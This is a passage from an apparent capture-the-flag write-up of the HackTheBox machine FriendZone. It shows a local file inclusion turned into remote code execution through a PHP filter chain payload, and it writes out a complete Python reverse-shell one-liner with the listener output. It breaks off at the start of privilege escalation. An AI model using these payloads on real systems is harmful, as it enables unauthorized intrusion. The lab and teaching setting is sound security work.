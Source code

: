 ![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/ac6121b3-6a5f-4296-8423-8ab6d8b45584)

hmmmm 🤔 we got a pic and some random text. let's test for lfi.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/93e63f98-1f09-4e1f-a4b6-0edc20f5afa7)

cool we got lfi, by using php filter payload `php://filter/convert.base64-encode/resource=timestamp`. let's use a payload called `php_filter_chain_generator.py` to get RCE.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/72bc945e-411a-46a5-b4ad-20d6e41a1eaa)

payload generator [link](https://github.com/synacktiv/php_filter_chain_generator). it's a sweet payload that will give you RCE on any lfi vuln without poisonning logs or anything 😂. let's run the payload.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/30a520b8-dcc7-43f0-acba-2a37be7495bd)

generate the payload by running command `php_filter_chain_generator.py --chain '<?php system($_GET['c']); ?>'` then copy from the `php://filter...=php://temp` append `&c=id` to excute the id command.

![image](https://github.com/n16hth4wk07/n16hth4wk07.github.io/assets/87468669/d1b52272-cbcb-4602-a592-3dd9211ee051)

coooool we got RCE. let's pop a reverse shell.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
rev shell payload.

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/HTB/FriendZone]
└─$ ncat -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.123.
Ncat: Connection from 10.10.10.123:36706.
www-data@FriendZone:/var/www/admin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@FriendZone:/var/www/admin$ 
```
bingo, got a reverse shell as user `www-data`


## Privilege Escalation

```
www-data@FriendZone:/opt/server_admin$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Sep 13  2022 .
drwxr-xr-x 3 root root 4096 Sep 13  2022 ..
-rwxr--r-- 1 root root  424 Jan 16  2019 reporter.py
www-data@FriendZone:/opt/server_admin$ cat reporter.py 
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''
```